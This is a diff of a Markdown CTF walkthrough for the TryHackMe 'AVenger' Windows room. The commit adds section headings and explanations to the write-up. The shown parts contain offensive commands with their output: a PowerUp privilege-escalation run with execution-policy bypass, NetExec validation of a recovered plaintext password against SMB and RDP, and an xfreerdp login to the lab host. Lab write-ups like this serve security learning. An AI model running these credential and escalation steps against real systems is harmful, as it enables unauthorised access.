

Before and after one commit to Youssef-Mohamed100/Youssef-Mohamed100, a Markdown page: Windows Pentest/THM/AVenger.md, 2 parts joined by grey strips. Shown at 95% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Windows Pentest/THM/AVenger.md
+++ b/Windows Pentest/THM/AVenger.md
@@ -1,11 +1,15 @@
+
 # <div align="center">AVenger</div>
 
 <div align="center">
     <img align-item="center" width="200"  src="https://tryhackme.com/_next/image?url=https://cdn-images.tryhackme.com/room-icons/07fe26c8113c521c23f979ce7829147a.png&w=128&q=75" alt="Material Bread logo">
 </div>
 
+## 1. Initial Reconnaissance
 
-# <div align="center">Let Start With Nmap scan.</div>
+I started by performing an Nmap scan to identify open ports and running services on the target machine.
+
+### Nmap Scan
 
 ```
 ┌──(kali㉿kali)-[~]
@@ -284,27 +311,49 @@ powershell -ep bypass -c ". .\PowerUp.ps1 ; Invoke-Allchecks"
 
 ```
 
+The command loads the PowerUp script into the current PowerShell session and executes `Invoke-Allchecks` to perform automated privilege escalation checks.
 
+The results revealed additional information that helped me continue the investigation.
 
 <img width="808" height="320" alt="image" src="https://github.com/user-attachments/assets/17f60e83-ac5c-4211-bbc5-d6be4ab0ec0b" />
 
-
-
 <img width="865" height="330" alt="image" src="https://github.com/user-attachments/assets/1a6e0a66-6995-4eb2-908a-1d55b984cd62" />
 
+## 5. Credential Validation
 
-```
+During the enumeration process, I obtained credentials for the user `hugo`.
+
+I used NetExec to verify whether these credentials could authenticate against SMB and RDP.
+
+### 5.1 SMB Authentication
+
+```text
 ┌──(kali㉿kali)-[~]
 └─$ nxc smb 10.129.140.161 -u hugo -p 'SurpriseMF123!'
 SMB         10.129.140.161  445    GIFT             [*] Windows 10 / Server 2019 Build 17763 x64 (name:GIFT) (domain:gift) (signing:False) (SMBv1:None)
 SMB         10.129.140.161  445    GIFT             [+] gift\hugo:SurpriseMF123!
+```
 
+The credentials were successfully validated against SMB.
+
+### 5.2 RDP Authentication
+
+Next, I tested the same credentials against the RDP service.
+
+```text
 ┌──(kali㉿kali)-[~]
 └─$ nxc rdp 10.129.140.161 -u hugo -p 'SurpriseMF123!'
 RDP         10.129.140.161  3389   GIFT             [*] Windows 10 or Windows Server 2016 Build 17763 (name:GIFT) (domain:gift) (nla:True)
 RDP       10.129.140.161  3389   GIFT             [+] gift\hugo:SurpriseMF123! (Pwn3d!)
+```
 
+The `(Pwn3d!)` result indicates that the credentials were valid and could be used to access the target through RDP.
+
+### 5.3 Connecting Through RDP
+
+Finally, I used FreeRDP to establish an interactive remote desktop session.
+
+```bash
 ──(kali㉿kali)-[~]
 └─$ xfreerdp3 /u:hugo /p:'SurpriseMF123!' /v:10.129.140.161 /dynamic-resolution +clipboard /cert:ignore
-
 ```
````
Also changed, not shown: other parts of Windows Pentest/THM/AVenger.md (+53 -30 lines).
